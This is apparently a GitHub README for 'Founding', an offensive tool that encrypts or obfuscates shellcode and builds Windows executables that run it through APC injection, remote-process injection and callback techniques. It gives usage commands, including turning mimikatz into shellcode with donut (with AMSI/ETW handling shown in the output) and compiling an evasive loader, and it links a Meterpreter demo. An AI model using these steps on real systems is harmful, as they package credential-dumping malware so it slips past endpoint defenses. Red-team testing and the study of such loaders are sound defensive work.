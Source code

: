 # Founding

![GitHub Logo](/Founding/Eren.png)

## Description
Founding is a tool that receives a Shellcode in ```.bin``` format, Obfuscates or Encrypts this shellcode and then generates a new binary utilizing some execution techniques.

### The tool has the following features for Encryption and Obfuscation:

- Supports IPv4/IPv6/MAC/UUID Obfuscation

- Supports XOR/RC4/AES encryption

- Supports payload padding

- Randomly generated encryption keys on every run

### The tool has the following features for Executing the Shellcode:
- Asynchronous Procedure Calls

- Asynchronous Procedure Calls with a Remote Debug Process

- Asynchronous Procedure Calls with a Remote Suspended Process

- Callback function EnumThreadWindows

- Local Mapping and Thread in Suspend State

## Usage
![GitHub Logo](/Founding/Usage.png)

```bash
Founding.exe <Input Payload FileName> <Enc/Obf *Option*> <Shellcode Execution type> <Optional flag>
```
### Utilize Donut to generate the Shellcode

To help generating shellcode I added to the releases [donut](https://github.com/TheWover/donut), using this project we can provide an ```.exe``` binary that we want to run and donut will generate ```.bin``` shellcode.
```bash
donut.exe --input:mimikatz.exe --output:mimi.bin
```

### Example Command
```bash
donut.exe --input:mimikatz.exe --output:mimi.bin


[ Donut shellcode generator v1 (built Mar  3 2023 13:33:22)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "mimikatz.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "mimi.bin"
  [ Exit          : Thread
```
```bash
Founding.exe mimi.bin aes APC --compile


Compilation successful.
Shinzo wo Sasageyo! Erwin.exe Created.
```
https://github.com/SenSecurity/Founding/raw/main/Founding/Meterpreter2.mp4
### Note
- Shellcodes that need an interactive shell like *mimikatz* can't be used with Remote Process techniques.
- To utilize the compile functionality I recommend downloading the releases because it will have all the necessary dependencies.

## Credits
- Some techniques used learnt from [Maldev Academy](https://maldevacademy.com), it is an awesome course, highly recommend
- Inspired by [HellShell](https://github.com/NUL0x4C/HellShell)



